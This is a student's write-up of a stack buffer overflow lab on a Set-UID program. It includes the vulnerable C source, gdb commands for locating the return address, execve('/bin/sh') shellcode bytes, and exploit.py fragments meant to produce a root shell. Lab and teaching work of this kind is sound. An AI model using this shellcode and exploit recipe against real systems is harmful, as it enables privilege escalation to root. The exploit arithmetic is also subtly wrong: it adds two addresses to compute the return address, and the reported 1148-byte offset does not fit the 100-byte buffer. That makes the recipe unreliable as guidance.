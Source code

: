 # Buffer Overflow Attack Lab (Set-UID Version)

## Task 1
On the terminal, after running the a32.out or the a64.out files, a shell is generated. Initially this shell is placed inside the folder that contains those same files and allows us to write any shellcode and execute it.

## Task 2
We are supposed to run an exploit in the given C file:

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
 
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

The file has a buffer overflow vunerability in the strcpy command because the function doesn't check for boundaries, that means that if the program is a root owned set-UID file we can feed the function a string that makes it spawn a root shell

For this to be exploitable it is needed for the OS safeguards be turned off and for the the code to be compiled with the following flags 

-z execstack -fno-stack-protector

## Task 3

First we need to find the address of where our program is running in the memory. In order to do that we have to compile the program on debug mode (-g option). When debugging we will be able to find the ebp and offset so we can have the right buffer payload to run our program. 

Running our program in debug mode:
`gdb stack-L1-dbg`

Then we set a breakpoint on bof and then run the program:

`b bof`
output: Breakpoint 1 at 0x12ad: file stack.c, line 16.

`run`
The program stops when hits the bof function because of the breakpoint that we created. The values of the stack frame for this function will be used on the badfile. 

`p $ebp`
output: $1 = (void *) 0xffffcfb8

`p &buffer`
output: $2 = (char (*)[100]) 0xffffcb3c

As we can see, the frame pointer is on 0xffffcfb8, so the return address must be stores at 0xffffcfb8+4, then the first address we can jump is 0xffffcfb8+8. 
We need to know where we should store the return address in the input in order for it to be stored in the return address filed in the slack. We can find that just by doing the diference between return and buffer start address.
`p/d 0xffffcfb8 - 0xffffcb3c`
output: $3 = 1148

As we can see the distance between the return address and the start buffer is 1148+4 so the return address must be storires with offset of 1152 in badfile.

**We now have to edit the file exploit.py to fill the content for badfile.** 

**We used a 32 bit shellcode:**

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

**we know that our string size is 517, so we should start at 517 minus the lenght of our shellcode**

start = 517-len(shellcode)   

**The content should be the shellcode itself**

content[start: start+len(shellcode)] = shellcode

**The return adress is given by the buffer and the ebp:**

buff =  0xffffcb3c

ebp =   0xffffcfb8

offset = ebp - buff + 4

ret = buff + ebp + 200

By compiling and executing our program exploit.py, we will generate the badfile content. 
After running our program` ./stack` we shoud be able to gain control as a root, that is, a shell prompt will be available. 

